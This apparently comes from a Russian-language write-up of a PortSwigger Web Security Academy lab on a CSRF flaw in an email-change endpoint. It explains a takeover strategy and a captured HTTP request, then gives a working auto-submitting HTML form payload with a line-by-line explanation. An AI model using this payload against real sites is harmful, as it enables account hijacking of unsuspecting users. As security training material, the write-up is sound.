


# Lab: CSRF vulnerability with no defenses

## Description

Level: `APPRENTICE`
This lab's email change functionality is vulnerable to `CSRF`.

> To solve the lab, craft some HTML that uses a `CSRF` attack to change the viewer's email address and upload it to your exploit server.

> You can log in to your own account using the following credentials: `wiener:peter`

# Strategy и payload

## Strategy

Начнем со стратегии:
1. **Подготовка**: создаем эксплоит, который заменит почту пользователя
2. **Доставка**: Отправляем жертве ссылку на сайт с данным вредоносом
   `https://exploit-0a12...exploit-server.net/exploit`
3. **Действие жертвы**: Жертва кликает по ссылке. Браузер открывает вредоносную ссылку
4. **Момент истины**: Браузер загружает `HTML`, исполняет скрипт `<script>...`
   и мгновенно отправляет `POST`-запрос на сервер уязвимого приложения
5. **Почему это работает**: Поскольку жертва уже залогинена,
   ее браузер автоматически прикрепляет к этому запросу ее сессионные куки
   (в нашем перехваченном запросе это `Cookie: session=...`).
   Сервер видит валидную куку, думает, что это сам пользователь,
   и меняет ему почту на `evil@edtechlab.web`
6. **Результат**: Затем меняем пароль через функцию восстановления,
    так как теперь знаем, что письмо придет на `evil@edtechlab.web`,
    и захватываем аккаунт. 
    (в рамках данной лабы не дойдет, просто объяснение зачем это делать)

## Как устроен `payload`?

```html
<html>
  <body>
    <form action="https://0a540077036281d380b10334000e00bf.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="evil@edtechlab.web" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

*   **`<form action="...">`**:Это сердце атаки. Атрибут `action` указывает, **куда** браузер отправит данные. В нашем случае это уязвимый эндпоинт на сервере (`/my-account/change-email`), который меняет почту.
*   **`method="POST"`**: Атрибут `method` указывает, **как** отправлять данные. Уязвимое приложение ждет POST-запрос, поэтому мы используем именно его.
*   **`<input type="hidden" ... />`**: Это поле формы. 
    *   `type="hidden"` означает, что пользователь (жертва) его не видит. Оно скрыто от глаз.
    *   `name="email"` — это имя параметра, которое ждет сервер (мы видели его в перехваченном запросе).
    *   `value="evil@edtechlab.web"` — это то значение, которое мы хотим подставить (почта, на которую мы меняем аккаунт).
*   **`<script>document.forms[0].submit();</script>`**: Это скрипт, который автоматически нажимает кнопку "Отправить". Без него жертве пришлось бы вручную нажать на кнопку, что снижает шансы на успех. `document.forms[0]` берет первую форму на странице, а `.submit()` отправляет ее.


# Solution

Для начала нам потребуется узнать адрес по которому происходит замена почты

Логинимся и отправляем запрос на замену почты и перехватываем запрос

```http
POST /my-account/change-email HTTP/2
Host: 0a540077036281d380b10334000e00bf.web-security-academy.net
Cookie: session=zad6fTLXWDLjDmBJmbPlj8jO3ueIPNa0
Content-Length: 26
Cache-Control: max-age=0
Sec-Ch-Ua: "Not A(Brand";v="99", "Chromium";v="154"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/154.0.0.0 Safari/537.36
Origin: https://0a540077036281d380b10334000e00bf.web-security-academy.net
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a540077036281d380b10334000e00bf.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

email=ivan%40edtechlab.web
```

Затем переходим на `exploit-server` и делаем базовый `payload`:

```html
<html>
  <body>
    <form action="https://0a540077036281d380b10334000e00bf.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="evil@edtechlab.web" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```



Затем отправляем его жертве.



